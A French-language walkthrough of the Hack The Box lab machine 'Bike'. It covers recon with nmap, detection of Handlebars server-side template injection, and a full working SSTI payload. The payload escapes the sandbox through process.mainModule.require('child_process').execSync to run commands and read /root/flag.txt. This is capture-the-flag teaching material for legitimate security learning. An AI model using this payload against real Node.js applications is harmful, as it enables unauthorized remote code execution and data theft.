




# Introduction

Bienvenue sur **Bike**, une machine du **Tier 1** de **Starting Point** qui nous introduit à une vulnérabilité web redoutable : le **SSTI (Server-Side Template Injection)**. Quand une application utilise un moteur de templates pour afficher dynamiquement des données utilisateur sans les valider, un attaquant peut injecter du code qui sera exécuté directement côté serveur.

Ici, on va identifier que l'application tourne sur **Node.js avec Express** et le moteur de templates **Handlebars**, puis exploiter une injection pour contourner la sandbox et exécuter des commandes système arbitraires.

>[!TIP]
>Attention : Il s'agit d'une machine VIP. Vous aurez besoin d'un abonnement HTB pour pouvoir la lancer.

>[!WARNING]
>Dans ce writeup, je ne publie pas directement le flag final, l'objectif est d'apprendre en pratiquant. Si vous voulez le flag, suivez les étapes sur la machine.

>[!CAUTION]
>**NOTE :** n'attaquez que des machines sur lesquelles vous avez l'autorisation (ex. machines HTB, ou lab perso). Respectez les règles de la plateforme.

## Vidéo Walkthrough

Je sortirais bientot un tuto vidéo, d'ici la tu peux aller checker ma chaine Youtube

 RavenBreach


---

## Reconnaissance

### Configuration DNS locale

On commence par ajouter la cible dans `/etc/hosts` pour ne pas avoir à retaper l'IP à chaque commande.

```bash
┌─[user@parrot]─[~]
└──╼ $sudo nano /etc/hosts
```

```
# HTB Targets
10.129.29.247 bike.htb
```

On vérifie que la résolution fonctionne avec un `ping`.

```bash
┌─[user@parrot]─[~/Documents/VPNs]
└──╼ $ping bike.htb

PING bike.htb (10.129.29.247) 56(84) bytes of data.
64 bytes from bike.htb (10.129.29.247): icmp_seq=1 ttl=63 time=12.1 ms
64 bytes from bike.htb (10.129.29.247): icmp_seq=2 ttl=63 time=13.3 ms
64 bytes from bike.htb (10.129.29.247): icmp_seq=3 ttl=63 time=11.9 ms
^C
--- bike.htb ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2004ms
rtt min/avg/max/mdev = 11.929/12.425/13.271/0.600 ms
```

Le **TTL de 63** confirme une machine **Linux**. La résolution DNS fonctionne.

### Énumération des services

Lançons un `nmap` avec détection de versions.

```bash
┌─[user@parrot]─[~/Documents/VPNs]
└──╼ $nmap -sV bike.htb

Starting Nmap 7.95 ( https://nmap.org ) at 2026-01-13 15:35 UTC
Nmap scan report for bike.htb (10.129.29.247)
Host is up (0.011s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE    VERSION
22/tcp open  ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
80/tcp open  tcpwrapped
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect re
```

Deux ports ouverts : **22 (SSH)** et **80 (HTTP)**. Le port 80 est masqué pour l'instant. On approfondit avec les scripts par défaut.

```bash
┌─[user@parrot]─[~/Documents/VPNs]
└──╼ $nmap -p22,80 -sV -sC bike.htb

Starting Nmap 7.95 ( https://nmap.org ) at 2026-01-13 15:36 UTC
Nmap scan report for bike.htb (10.129.29.247)
Host is up (0.011s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
80/tcp open  http    Node.js (Express middleware)
|_http-title:  Bike
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.87 seconds
```

Le port 80 tourne sur **Node.js avec le framework Express**. C'est une info précieuse pour la suite.

### Exploration de l'application web

En ouvrant `http://bike.htb` dans le navigateur, on découvre un site en construction avec un simple formulaire d'inscription à une newsletter.


On soumet une valeur quelconque pour observer le comportement de l'application.



L'application nous renvoie notre saisie directement dans la page. Ce comportement est typique d'un moteur de templates qui affiche dynamiquement les données utilisateur. Ça sent la **SSTI**.

---

## Pré-Exploitation

### Identification de la vulnérabilité SSTI

Un moteur de templates (template engine) permet de générer du HTML dynamiquement. Il substitue des variables dans un gabarit HTML. La vulnérabilité **SSTI** survient quand l'entrée utilisateur est injectée directement dans ce gabarit et exécutée par le moteur.

Express supporte plusieurs moteurs de templates : **Pug**, **Handlebars**, **EJS**... Pour détecter lequel est utilisé et s'il est vulnérable, on peut tester une expression mathématique. Si le moteur l'évalue, on a une SSTI.

On soumet `{{7*7}}` dans le formulaire.


On n'obtient pas `49` mais une **erreur**. Le serveur a bien tenté d'évaluer l'expression, la syntaxe `{{ }}` est reconnue mais a planté. Le message d'erreur est encore plus révélateur : il mentionne le chemin `/routes/Backend/` et le nom du moteur : **Handlebars**.

>[!TIP]
>Une erreur qui expose des chemins internes et le nom de la technologie utilisée est déjà une fuite d'information précieuse. En pentest, on note tout.

### Mise en place de BurpSuite

Pour manipuler facilement nos requêtes et encoder nos payloads, on va utiliser **BurpSuite** comme proxy intercepteur.

On ouvre BurpSuite, on crée un nouveau projet temporaire, puis on se rend dans l'onglet **Proxy** et on active **"Intercept on"** avant d'ouvrir le navigateur intégré.


On navigue vers `bike.htb`. La requête est interceptée. On clique sur **Forward** pour la laisser passer et accéder à l'application.

---

## Exploitation

### Payload SSTI Handlebars

En cherchant sur [HackTricks](https://book.hacktricks.wiki/en/pentesting-web/ssti-server-side-template-injection/) les payloads pour Handlebars, on trouve un exemple d'exploitation. Le principe est d'utiliser la syntaxe de blocks Handlebars pour remonter au constructeur JavaScript et appeler `require('child_process').exec()`.

```
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').exec('whoami');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

On colle ce payload dans l'onglet **Decoder** de BurpSuite et on l'encode en **URL encode** pour que tous les caractères spéciaux passent correctement dans la requête HTTP.


Ensuite, on soumet une requête `test` depuis le navigateur, on l'intercepte dans BurpSuite, et on fait un clic droit dessus pour **"Send to Repeater"**.



Dans l'onglet **Repeater**, on remplace la valeur du paramètre `email` par notre payload encodé en URL, puis on clique sur **Send**.



La réponse renvoie une erreur que l'on peut lire sur la partie Responses en dessous: `require is not defined`. C'est là qu'on comprend que le code s'exécute dans une **sandbox** qui bloque l'accès à `require`.


### Contournement de la sandbox avec `process`

Dans Node.js, `require` n'est pas un objet global accessible partout. En revanche, l'objet **`process`** l'est. En consultant la documentation Node.js, on découvre que `process.mainModule` fait référence au module principal du programme, qui lui n'est pas sandboxé.

On modifie progressivement notre payload pour explorer cette piste. D'abord, on vérifie qu'on peut accéder à `process` en remplaçant dans notre payload :
```
{{this.push "return require('child_process').exec('whoami');"}}
```
par
```
{{this.push "return process;"}}
```


La réponse contient `[object process]` donc `process` est bien accessible.

Ensuite, on accède à `mainModule` :

```
{{this.push "return process.mainModule;"}}
```

Pas d'erreur, la propriété est atteinte. On peut maintenant utiliser `require` via ce chemin pour sortir de la sandbox.

### Exécution de commandes

On charge le module `child_process` via `process.mainModule.require` et on exécute `whoami`. On utilise `execSync` plutôt que `exec` pour que le serveur attende la fin de l'exécution avant de renvoyer la réponse.

```
{{this.push "return process.mainModule.require('child_process').execSync('whoami');"}}
```


Nous avons une **RCE** ! La commande s'exécute sur le serveur.

---

## Post-Exploitation

### Récupération du flag

On sait maintenant qu'on peut exécuter n'importe quelle commande système. On liste le contenu du répertoire `/root`.

```
{{this.push "return process.mainModule.require('child_process').execSync('ls /root');"}}
```



Un fichier `flag.txt` est présent à la racine. On le lit directement.

```
{{this.push "return process.mainModule.require('child_process').execSync('cat /root/flag.txt');"}}
```

```
6b2{...}81c
```

Le flag est récupéré ! La machine est ***pwned*** !

---

## Conclusion

Cette machine nous a appris à identifier et exploiter une **SSTI** sur un moteur de templates **Handlebars** dans un contexte Node.js. Voici le récapitulatif de la chaîne d'attaque :

1. **Reconnaissance** => Identification d'une application **Node.js / Express** sur le port 80
2. **Détection SSTI** => Injection de `{{7*7}}` qui provoque une erreur révélant le moteur **Handlebars**
3. **Exploitation initiale** => Payload SSTI Handlebars envoyé a l'aide de **BurpSuite** bloqué par une **sandbox** qui interdit `require`
4. **Contournement sandbox** => Utilisation de `process.mainModule.require` pour charger `child_process` hors sandbox
5. **RCE** => Exécution de commandes arbitraires avec `execSync` et lecture du flag dans `/root/flag.txt`

<!-- ---

## Pour aller plus loin

### Script automatisé
Ce n'est pas encore fait mais je prévois de faire un script automatisé !

### Rapport professionnel
Ce n'est pas encore fait mais je prévois de faire un rapport professionnel ! -->